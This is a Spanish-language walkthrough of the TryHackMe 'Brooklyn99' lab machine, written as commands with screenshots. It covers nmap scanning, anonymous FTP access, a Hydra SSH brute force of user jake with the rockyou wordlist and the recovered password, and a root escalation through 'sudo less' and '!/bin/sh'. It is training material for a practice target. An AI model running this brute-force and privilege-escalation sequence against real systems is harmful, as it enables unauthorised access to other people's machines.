## Brook Lyn Nine Nine

<h3>Enlace de la mv: <a href="https://tryhackme.com/room/brooklynninenine" target="_blank">Brooklyn99</a></h3>

<h3>Dificultad:  </h3>

### *Leer el documentro en Ingles* <a href="BrookLynNineNine_ingles.md">Brook Lyn Nine Nine en ingles</a>

## Descripción del ataque 

Empezamos con un escaneo de puertos con la herramienta Nmap:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 10.10.153.79
```
<p align="center"> 

</p>

Comprobamos que están los puertos abiertos 21 (ftp), 22 (ssh) y el puerto 80 (http)

**En el puerto 21 si nos fijamos está disponible el usuario anonymous, siempre cuando tenemos este usuario la contraseña irá vacía**

Por tanto, investiguemos que tiene el servicio ftp:

```
ftp 10.10.153.79
```
<p align="center"> 

</p>

Observamos que hay un .txt, vamos a intentar de descargarlo con el siguiente comando:
```
get note_to_jake.txt
```
<p align="center"> 

</p>

Miramos su contenido

```
cat note_to_jake.txt
```
<p align="center"> 

</p>

Con esto podemos concluir que el usuario es **jake** y le están avisando que el password es débil. Antes con nmap, descubrimos el puerto 22 abierto (ssh), vamos a realizar una fuerza bruta con **Hydra**

```
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.153.79 
```
<p align="center"> 

</p>

Nos introducimos a ssh con el usuario **jake** y la contraseña **987654321**

```
ssh jake@10.10.153.79
```
<p align="center"> 

</p>

Una vez dentro, para obtener el primer red flag haríamos lo siguiente:

```
cd /home/holt
ls
cat user.txt
```
<p align="center"> 

</p>

### Escalada de privilegio

Siempre cuando hagamos escalada de privilegio, lo primero que hay que probar es el siguiente comando:

```
sudo -l
```

<p align="center"> 

</p>

Observamos que **less** tiene permiso para ejecutarse como sudo, para ello nos vamos a la siguiente página <a href="https://gtfobins.github.io" target="_blank">gtfobins</a>

En el buscador escribimos **less** y luego, nos situamos en el apartado de sudo

<p align="center"> 

</p>

E introducimos estos comandos en la terminal:

```
sudo /usr/bin/less /etc/profile
!/bin/sh
```
<p align="center"> 

</p>

Siendo ahora root, podemos realizar los siguientes comandos:

```
cd /root
cat root.txt
```
<p align="center"> 

</p>

Obtuvimos la última red flag que es la de root.

**Máquina terminada**